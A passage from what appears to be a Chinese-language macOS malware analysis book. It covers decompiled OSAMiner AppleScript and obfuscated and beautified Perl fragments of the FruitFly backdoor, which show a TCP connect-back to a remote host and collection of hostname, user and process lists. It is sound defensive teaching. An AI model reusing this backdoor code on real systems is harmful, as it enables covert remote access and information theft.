 ```
```

清单 4-25：通过 `aevt_decompile` 进一步反编译只能运行的 AppleScript（OSAMiner）

如你所见，代码通过调用 `do shell script` 命令 1 输出嵌入的脚本。然后，它使用 `osascript` 命令执行这个脚本（将任何输出或错误重定向到 `/dev/null`）2。

阅读反编译后的 AppleScript 其余部分可以揭示该 OSAMiner 恶意软件组件的其他功能。有关恶意软件作者如何滥用 AppleScript 的进一步讨论，请参见“AppleScript 如何用于攻击 macOS。”^(15)

### Perl 脚本

在 macOS 恶意软件的世界中，Perl 并不是一种常见的脚本语言。然而，至少有一种臭名昭著的 macOS 恶意软件是用 Perl 编写的：FruitFly。FruitFly 于 2000 年代中期创建，在野外几乎存在了 15 年之久都未被发现。FruitFly 的主要持久组件，通常命名为 *fpsaud*，就是用 Perl 编写的（见清单 4-26）：

```
#!/usr/bin/perl
use strict;use warnings;use IO::Socket;use IPC::Open2;my$l;sub G{die if!defined syswrite$l,$_[0]}sub J{my($U,$A)=('','');while($_[0]>length$U){die if!sysread$l,$A,$_[0]-length$U;$U.=$A;}return$U;}sub O{unpack'V',J 4}sub N{J O}sub H{my$U=N;$U=~s/\\/\//g;$U}subI{my$U=eval{my$C=`$_[0]`;chomp$C;$C};$U=''if!defined$U;$U;}sub K{$_[0]?v1:v0}sub Y{pack'V',$_[0]}sub B{pack'V2',$_[0]/2**32,$_[0]%2**32} ...
```

清单 4-26：混淆的 Perl（FruitFly）

像其他脚本语言一样，使用 Perl 编写的程序通常以脚本形式分发，而不是编译后的形式。因此，分析它们相对直接。然而，在 FruitFly 的情况下，恶意软件作者通过删除代码中的不必要空白、重命名变量和子程序并使用无意义的单个字母名称，试图复杂化分析，这是一种常见的混淆和代码最小化的策略。

利用各种在线 Perl“美化工具”中的任何一个，我们可以重新格式化恶意脚本并生成更易读的代码，如清单 4-27 所示（尽管变量和子程序的名称依然没有意义）：

```
#!/usr/bin/perl
use strict;
use warnings;
use IO::Socket;
use IPC::Open2;
...
1 $l = new IO::Socket::INET(PeerAddr => scalar(reverse $g), 
                          PeerPort => $h, 
                          Proto => 'tcp', 
                          Timeout => 10);

G v1.Y(1143).Y($q ? 128 : 0).Z(($z ? I('scutil --get LocalHostName') : '') || 
2 I('hostname')).Z(I('whoami'));

for (;;) { 
  ...
3 $C = `ps -eAo pid,ppid,nice,user,command 2>/dev/null`
  if (!$C) {
 push@ v, [0, 0, 0, 0, "*** ps failed ***"]
  }
  ...
```

清单 4-27：已美化，尽管仍然有些混淆的 Perl（FruitFly）

美化过的 Perl 脚本仍然不容易阅读，但只需一点耐心，我们就可以推测出恶意软件的全部能力。首先，脚本使用`use`关键字导入了多个 Perl 模块。这些模块提供了脚本正在进行的操作的线索：`IO::Socket`模块表明具有网络功能，而`IPC::Open2`模块则暗示恶意软件与进程交互。
